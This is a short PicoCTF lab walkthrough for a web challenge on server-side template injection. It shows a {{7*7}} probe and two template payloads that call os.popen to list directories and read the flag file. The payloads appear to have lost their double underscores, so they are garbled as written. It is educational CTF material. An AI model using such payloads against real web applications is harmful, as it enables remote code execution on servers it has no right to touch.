 # 🛡️ PicoCTF Lab Walkthrough – SSTI 1

## 📌 Challenge Info
- **Category**: Web Exploitation
- **Points**: Not specified
- **Difficulty**: Medium
- **Challenge Link**: N/A

---

## 📝 Challenge Description
The application was vulnerable to Server-Side Template Injection (SSTI) in an input field.

---

## 🔍 Initial Recon
- **Files provided**: None
- **Services/Ports**: Web application
- **Hints given**: None

---

## 🛠️ Tools & Commands Used
| Tool / Command | Purpose |
|----------------|---------|
| SSTI payloads | Test template injection |
| OS commands | File access |

---

## 🧠 Step-by-Step Solution
1. Tested:
{{7*7}}

Response: `49` → SSTI confirmed.
2. Directory listing:
{{request.application.globals.builtins.import('os').popen('ls -R').read()}}

3. Retrieved flag:
{{request.application.globals.builtins.import('os').popen('cat flag').read()}}

---

## 🧾 Flag
picoCTF{[actual_flag_here]}

---

## 📚 Learning Outcomes
- SSTI can lead to full RCE.
- Sanitizing template input is essential.

---

## 🔗 References
- [PortSwigger – SSTI](https://portswigger.net/research/server-side-template-injection)

